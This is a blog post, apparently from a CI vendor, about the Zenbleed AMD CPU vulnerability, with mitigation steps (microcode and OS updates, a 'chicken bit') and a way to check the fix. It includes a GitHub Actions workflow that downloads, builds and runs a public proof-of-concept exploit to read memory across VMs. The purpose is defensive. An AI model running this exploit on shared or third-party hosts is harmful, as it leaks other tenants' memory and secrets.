 ```yaml
---
title: Update your AMD hosts now to mitigate the Zenbleed exploit
description: "Learn how to update the microcode on your AMD CPU to avoid the Zenbleed exploit."
tags:
- images
- packer
- qemu
- kvm
author_img: alex
image: "/images/2023-07-zenbleed/background.png"
date: "2023-07-31"
---
```


On 24th July 2023, [The Register covered a new exploit](https://www.theregister.com/2023/07/24/amd_zenbleed_bug/) for certain AMD CPUs based upon the Zen architecture. The exploit, dubbed Zenbleed, allows an attacker to read arbitrary physical memory locations on the host system. It works by allowing memory to be read after it's been set to be freed up aka "use-after-free". This is a serious vulnerability, and you should update your AMD hosts as soon as possible.

Even more dangerous was the claim by The Register that any level of VM isolation prevents the exploit from working. This is not true. We tested the exploit with a sample GitHub Action running within Firecracker.

> "If you stick any emulation layer in between, such as Qemu, then the exploit understandably fails."

We ran a matrix build that creates many VMs running different versions of K3s, then we started a PoC Zenbleed exploit written by [Tavis Ormandy](https://twitter.com/taviso), a security researcher at Google, which scanned for 1000 pieces of data in memory.

We found that the exploit was able to read the memory of the host system, and that the exploit was able to read the memory of other VMs running on the same host.

```yaml
name: build

on:
    pull_request:
        branches:
        - '*'
    push:
        branches:
        - master
        - main
    workflow_dispatch:

jobs:
    build:
        name: specs
        runs-on: actuated
        steps:
        - uses: actions/checkout@v1
        - name: Download exploit
          run: |
            curl -L -S -s -O https://lock.cmpxchg8b.com/files/zenbleed-v5.tar.gz
            tar -xvf zenbleed-v5.tar.gz
            sudo apt install -qy build-essential make nasm
        - name: Build exploit
          run: |
            cd zenbleed
            make
            chmod +x ./zenbleed
        - name: Run exploit for 1000 pieces of data
          run: |
            ./zenbleed/zenbleed -m 1000
```

Full details of the exploit can be found on a microsite created by the security researcher who discovered the vulnerability.

[Zenbleed by Tavis Ormandy](https://lock.cmpxchg8b.com/zenbleed.html#vulnerability)

We didn't see any secrets printed out during the scan, but we did see part of a public SSH key, console output from etcd running within K3s, and instructions from containerd. So we can assume anything that was within memory within one of the other VMs on the host, or even the host itself, could be read by the exploit.

![GHA output from the zenbleed exploit](/images/2023-07-zenbleed/gha.png)
> GHA output from the zenbleed exploit

## Mitigation

AMD has already released a mitigation for the Zenbleed exploit, which requires an update to the CPU's microcode.

[Ed Vielmetti](https://www.linkedin.com/in/edwardvielmetti/), Developer Partner Manager at Equinix told us that mitigation is three-fold:

1. There is an incoming BIOS update from certain vendors that will update the microcode.
2. Updating some OSes like the Ubuntu 20.04 and 22.04 will upgrade the microcode of the CPU.
3. There is a ["chicken bit"](https://www.reddit.com/r/linux/comments/15903hr/zenbleed_a_useafterfree_in_amd_zen2_processors/) that can be enabled which prevents the exploit from working.

I probably don't need to spell this out, but a system update looks like the following, and the reboot is required:

```bash
sudo apt update -qy && \
    sudo apt upgrade -yq && \
    sudo reboot 
```

![An update to the CPU microcode is required](/images/2023-07-zenbleed/microcode.png)

For some unknown reason, both of the Equinix AMD hosts that we use internally broke after running the OS upgrade, so I had to reinstall Ubuntu 22.04 using the dashboard. If for whatever reason the machine won't come up after the microcode update, then you should reinstall the Operating System (OS) using your vendor's rescue system or out of band console, both Equinix Metal and Hetzner have an "easy button" that you can click for this. If there is still an issue after that, reach out to your vendor's support team.

New machines provisioned after this date should already contain the microcode fix or have the "chicken bit" enabled. We provisioned a new AMD Epyc server on Equinix Metal to make sure, and as expected, thanks to their hard work - it was not vulnerable.

We offer 500 USD of free credit for new Equinix Metal customers to use with actuated, and Equinix Metal have also written up their own guide on workaround here:

* [An Update On the AMD Zen 2 CPU Vulnerability](https://deploy.equinix.com/blog/an-update-on-the-amd-zen-2-cpu-vulnerability/)

## Verifying the mitigation

Since actuated VMs use Firecracker, you should run the above workflow before and after to verify the exploit was a) present and b) mitigated.

![What it looks like when the mitigation is in place](/images/2023-07-zenbleed/mitigated.png)
> Above: What it looks like when the mitigation is in place

You can also run the exploit on the host by copying and pasting the commands from the GitHub Action above.

My workstation uses a Ryzen 9 CPU, so when I ran the exploit I just saw a blocking message instead of memory regions:

```bash
$ grep "model name" /proc/cpuinfo |uniq
model name	: AMD Ryzen 9 5950X 16-Core Processor

./zenbleed -m 100
*** EMBARGOED SECURITY ISSUE --  DO NOT DISTRIBUTE! ***
ZenBleed Testcase -- taviso@google.com

NOTE: Try -h to see configuration options

Spawning 32 Threads...
Thread 0x7fd0d40e8700 running on CPU 0
Thread 0x7fd0d38e7700 running on CPU 1
...
```

## Wrapping up

Actuated uses Firecracker, an open source Virtual Machine Manager that works with Linux KVM to run isolated systems on a host. We have verified that the exploit works on Firecracker, and that the mitigation works too. So whilst VM-level isolation and an immutable filesystem is much more appropriate than a container for CI, this is an example of why we must still be vigilant and ready to respond to security vulnerabilities. 

This is an unfortunate, and serious vulnerability. It affects bare-metal, VMs and containers, which is why it's important to update your systems as soon as possible.
